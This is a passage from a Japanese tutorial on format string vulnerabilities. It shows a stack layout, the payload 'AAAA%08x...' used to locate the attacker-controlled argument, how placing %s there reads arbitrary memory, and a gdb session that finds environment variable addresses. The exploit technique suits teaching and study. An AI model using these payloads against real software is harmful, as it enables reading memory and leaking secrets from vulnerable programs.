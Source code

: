 　41という数字は文字では「A」ですので、どうやら8個で良いようです。今回、
引数のはじめに方にAAAAを渡していますので、41414141という数値が現れた部分
が引数として渡した配列の開始場所です。つまり、8個目の変換指定文字に%sを記
述すれば、0x41414141番のアドレスの中身をNULLが出現するまで出力します。%s
はその変換指定文字が対応する引数のアドレス内を参照する点にご注意ください。

[stack]
------row
bffff520 (ret)
------
00000000
------
4001670c
------
00000002
------
00000004
------
00000000
------
00000000
------
AAAA%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.[NULL] (text)
------
....
------0x41414141
????
------high

　とりあえず環境変数の値を出力してみましょう。環境変数のアドレスの求め方
は次のようにgdbを利用します。

```
[Get envaiorment values]
defolos@glazheim:\~/Desktop$ gdb a.out
(gdb)break main
(gdb)run
(gdb)x/20s $esp
....
0xbffffad1: ""
0xbffffad2: "i686"
0xbffffad7: "/home/defolos/Desktop/a.out"
0xbffffaf3: "SSH_AGENT_PID\=4328"
0xbffffb06: "SHELL\=/bin/bash"
0xbffffb16: "DESKTOP_STARTUP_ID\="
0xbffffb2a: "TERM\=xterm"
0xbffffb35: "GTK_RC_FILES\=/etc/gtk/gtkrc:/home/defolos/.gtkrc-1.2-gnome2"
0xbffffb71: "WINDOWID\=20971594"
0xbffffb83: "USER\=defolos"
....
```
